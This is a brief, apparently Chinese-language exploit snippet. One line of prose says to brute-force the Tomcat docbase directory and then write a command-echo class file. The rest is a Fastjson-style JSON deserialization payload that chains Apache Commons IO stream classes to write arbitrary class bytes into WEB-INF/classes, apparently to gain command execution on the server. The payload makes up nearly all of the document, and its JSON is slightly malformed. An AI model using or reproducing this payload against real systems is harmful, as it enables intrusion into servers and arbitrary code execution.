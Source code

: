 爆破出tomcat-docbase目录后，用io6写入Tomcat678910cmdechoException.class文件。  
```
{
  "a": {
    "@type": "java.io.InputStream",
    "@type": "org.apache.commons.io.input.AutoCloseInputStream",
    "in": {
      "@type": "org.apache.commons.io.input.TeeInputStream",
      "input": {
        "@type": "org.apache.commons.io.input.CharSequenceInputStream",
        "cs": {
          "@type": "java.lang.String"
          "\xCA\xFE\xBA\xBExxxxxxxxxxxxxxxx",
          "charset": "iso-8859-1",
          "bufferSize": 1024
        },
        "branch": {
          "@type": "org.apache.commons.io.output.WriterOutputStream",
          "writer": {
            "@type": "org.apache.commons.io.output.LockableFileWriter",
            "file": "/tmp/tomcat-docbase.9999.6522870832081637972/WEB-INF/classes/Tomcat678910cmdechoException.class",
            "charset": "iso-8859-1",
            "append": true
          },
          "charsetName": "iso-8859-1",
          "bufferSize": 1024,
          "writeImmediately": true
        },
        "closeBranch": true
      }
    },
    "b": {
      "@type": "java.io.InputStream",
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "org.apache.commons.io.input.XmlStreamReader",
        "inputStream": {
          "$ref": "$.a"
        },
        "httpContentType": "text/xml",
        "lenient": false,
        "defaultEncoding": "iso-8859-1"
      },
      "charsetName": "iso-8859-1",
      "bufferSize": 1024
    },
    "c": {
      "@type": "java.io.InputStream",
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "org.apache.commons.io.input.XmlStreamReader",
        "inputStream": {
          "$ref": "$.a"
        },
        "httpContentType": "text/xml",
        "lenient": false,
        "defaultEncoding": "iso-8859-1"
      },
      "charsetName": "iso-8859-1",
      "bufferSize": 1024
    }
  }
```  